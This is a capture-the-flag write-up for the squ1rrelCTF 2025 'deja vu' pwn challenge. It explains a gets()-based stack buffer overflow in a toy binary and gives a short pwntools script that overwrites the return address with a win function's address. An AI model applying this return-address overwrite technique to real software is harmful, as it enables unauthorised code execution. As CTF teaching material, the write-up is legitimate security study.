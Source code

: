 ```yaml
---
title: "deja vu",
date: 2025-04-06
layout: writeup
platform: squ1rrelCTF 2025
categories: [pwn]
tags: [Buffer Overflow, Stack Pivoting]
difficulty: Medium
---
```


# deja vu

## Challenge Description

We have a netcat server running.
Upon connection, it prompts us with `pwnme:`
Entering anything into the prompt does not yield any response and the connection is closed.

## Binary Ninja

The main function is pretty basic.

```c
int main(int argc, char **argv, char **envp) {
    setbuf(__bss_start, nullptr);
    setbuf(stdin, nullptr);
    printf("pwnme: ");
    void buf;
    gets(&buf);
    return 0;
}
```

There is a `win` function also, which prints the flag.

## Solution

Looking at the `main` function, we can see that it uses `gets`, which is a classic buffer overflow vulnerability.
We can overflow the buffer and overwrite the return address with the address of the `win` function.
looking at the disassembly, we can see that the `win` function is located at `0x4011f6`.

The stack offset for the `buf` variable is `0x48` bytes.

Hence we can use the following python script to exploit the binary:

```python
from pwn import *
c = remote("<url>", port)
payload = b"A" * 0x48 + b'\xf6\x11\x40\x00\x00\x00\x00' + b'\n'

c.recv()
c.send(payload)
c.interactive()
```
